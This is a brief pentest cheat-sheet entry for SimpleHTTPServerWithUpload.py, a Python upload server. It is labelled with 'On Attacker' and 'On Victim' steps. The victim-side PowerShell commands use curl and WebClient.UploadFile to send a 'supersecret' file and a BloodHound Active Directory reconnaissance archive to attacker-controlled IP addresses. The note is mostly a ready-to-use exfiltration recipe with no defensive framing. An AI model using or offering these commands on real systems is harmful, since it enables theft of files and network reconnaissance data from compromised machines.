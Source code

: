 # Name
SimpleHTTPServerWithUpload.py

## Usage
```
# On Attacker:
python3 SimpleHTTPServerWithUpload.py 80

# On Victim:
powershell -c curl.exe -F 'file=@C:\\temp\\supersecret.txt' http://172.16.1.30
(New-Object System.Net.WebClient).UploadFile('http://192.168.45.5/', 'C:\temp\20230425015352_BloodHound.zip')
```

## Source
https://raw.githubusercontent.com/Tallguy297/SimpleHTTPServerWithUpload/master/SimpleHTTPServerWithUpload.py

